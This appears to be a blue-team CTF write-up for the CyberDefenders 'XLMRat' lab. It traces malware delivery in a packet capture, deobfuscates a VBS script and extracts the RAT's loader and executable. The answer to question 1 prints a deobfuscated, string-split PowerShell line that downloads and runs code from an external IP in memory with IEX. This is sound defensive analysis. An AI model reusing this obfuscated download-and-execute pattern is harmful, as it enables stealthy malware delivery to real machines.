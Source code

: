 CyberDefenders CTF Lab XLMRat
---

https://cyberdefenders.org/blueteam-ctf-challenges/xlmrat/

#### Scenario

Analyze network traffic to identify malware delivery, deobfuscate scripts, and map attacker techniques using MITRE ATT&CK, focusing on stealthy execution and reflective code loading.


#### Machine Environment 

- Windows 10 running in VMware workstation
- Flare Windows Install https://github.com/mandiant/flare-vm
- WireShark


### 1.  The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?
---

This pcap consists of 2 host conversations.
	
Wireshark -> Statistics -> Conversations

![image](https://github.com/user-attachments/assets/fe8eb902-92f8-42c3-86f2-251547f74dae)

The first GET request is for a xlm.txt file sourced from 10.1.9.101 and destined to 45.126.209.4

![image](https://github.com/user-attachments/assets/5387616c-63b1-4456-883b-c174120e23e0)

Use WireShark to export the HTTP files to your Windows Flare VM
	
File -> Export Objects -> HTTP

![image](https://github.com/user-attachments/assets/43b4cef2-81a7-46b1-93e1-0bba88230c9c)

The xlm.txt file contains a Visual Basic Script (VBS) that declares an array and stores pieces of code that get concatenated using a for loop.

![image](https://github.com/user-attachments/assets/bf331842-daba-41a5-abca-11a863e6ae8d)

***RUN CODE AT YOUR OWN RISK
 
By placing the wscript.echo command we can view the output of the variable to the console.

![image](https://github.com/user-attachments/assets/96a50816-aebd-4861-b747-3c543bc282e9)

Open a command prompt and run the .vbs file with cscript.exe displaying the output. 

![image](https://github.com/user-attachments/assets/14dea8b7-4225-46fc-9493-9841ff497ff3)

Bring the output into a text editor and clean it up.  The "[BYTe[]]" lines are not useful and probably a way to confuse people and machine.  

	$A123 = "IeX(NeW-OBJeCT NeT.W"
	$B456 = "eBCLIeNT).DOWNLO"
	$C789 = "'VAN(''http://45.126.209.4:222/mdm.jpg'')'.RePLACe('VAN','ADSTRING')"
	IeX($A123+$B456+$C789)

This script downloads the first stage of malware and executes in into memory using Invoke-Expression (IeX)

### 2.  
Which hosting provider owns the associated IP address?
---

Using a web site like https://whois.domaintools.com/ shows the hosting provider name.

![image](https://github.com/user-attachments/assets/bd612ade-da08-4bc9-9dff-108e6e7c696e)

### 3.  By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?
---

Analyzing the mdm.jpg file we open it with a text editor to see two long HEX variables with some PowerShell and VBS code.  Lets isolate both HEX variables into their own files and convert those HEX files to executable.  Part of the mdm.jpg file has the script needed to convert since it performs those actions when run.  

![image](https://github.com/user-attachments/assets/704145a1-65f9-4ed7-bc55-6f53e6a4fb87)

Create a simple PowerShell script to convert both HEX values to executables.

![image](https://github.com/user-attachments/assets/33894fb9-3ff8-446f-8a38-8a1c6968e6b2)

Both newly created file details show their original filename.  Stub.exe and NewPE2.dll		

![image](https://github.com/user-attachments/assets/91988140-e6d6-4e92-8c7f-8bb3dc715949)

Get the SHA256 of the Stub.exe file as this is the malware executable

![image](https://github.com/user-attachments/assets/0d421874-af85-4e08-a789-8e78e273b443)

### 4.  What is the malware family label based on Alibaba?
---

![image](https://github.com/user-attachments/assets/df479b8a-70b9-436d-b932-7ca89e7f147b)


### 5.  What is the timestamp of the malware's creation?
---

![image](https://github.com/user-attachments/assets/ee901fd2-baf2-4b3e-9e8f-4875befbb5d6)

### 6.  Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.
---

We can grab the portion of LOLBin code and run it independently giving us the path.

![image](https://github.com/user-attachments/assets/13cc40ff-696e-48e3-b7a6-887eeb74c973)

### 7.  The script is designed to drop several files. List the names of the files dropped by the script.
---

	-The malware creates a PowerShell script (conted.ps1) containing the 2 HEX variables and loads NewPE2.dll
	-Then creates a bat file (conted.bat) which uses powershell.exe to run the ps1 file.
	-Finally creating a .vbs (conted.vbs) which leverages WScript.shell to run conted.bat

![image](https://github.com/user-attachments/assets/f4c95d80-08c0-4a0f-9bd6-1658b410fe33)
![image](https://github.com/user-attachments/assets/750c2c1c-7c0a-4c1b-af10-8c002f41ce4c)























